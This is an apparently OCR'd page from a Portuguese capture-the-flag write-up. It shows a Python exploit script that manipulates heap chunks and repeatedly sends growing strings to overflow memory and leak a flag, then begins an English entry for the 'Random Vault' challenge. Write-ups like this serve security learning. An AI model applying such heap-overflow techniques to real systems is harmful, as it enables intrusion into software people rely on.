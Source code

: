```python
OVERFLOW=8

#guarda uma flag na memoria antes de começar
print(5)

#tenta forçar a flag a ser grava próxima a uma das mensagens
cria_chunk(64)
cria_chunk(64)
cria_chunk(64)
cria_chunk(64)
remove_chunk(3)
remove_chunk(2)
for i in range(1):
    #o programa sempre aloca um espaço de 24 bits zerado a toda impressão de flag
    #esse procedimento busca controlar onde isso acontece (provavelmente desnecessario)
    cria_chunk(24)
    remove_chunk(2)
    print(5)

#aumenta aos poucos a string
for i in range(50):
    print("2\n1\n" + str(64+(i*OVERFLOW))+ "\n" + (64+(i*OVERFLOW))*'b')
    print(4)

#guarda mais uma flag na memoria Just in Case
print("5")
print("4")

#aumenta mais a string
for i in range(50,100):
    print("2\n1\n" + str(64+(i*OVERFLOW))+ "\n" + (64+(i*OVERFLOW))*'b')
    print(4)

#finaliza a execução
print("6")
```


### Random Vault (EN)

Writeup em inglês, devemos postar a tradução eventualmente.

```
While analyzing data obtained through our cyber operations, our analysts have discovered an old service in HARPA infrastructure. This service has been used to store the agency's secrets, but it has been replaced by a more sophisticated one after a few years. By mistake, this service remained available on Internet until December 2019, when HARPA agents realized this flaw and took it down. We suspect this service is vulnerable. We need your help to exploit its vulnerability and extract the secrets that are still kept on the server.

Server: 200.136.252.34 1245

Server backup: 68.183.204.108 1245

https://cloud.ufscar.br:8080/v1/AUTH_c93b694078064b4f81afd2266a502511/static.pwn2win.party/random_vault_679bf5b114c21f564eadec9b0016fb7bf3d9d100141afae8b59d1d44ee60ff31.tar.gz
```
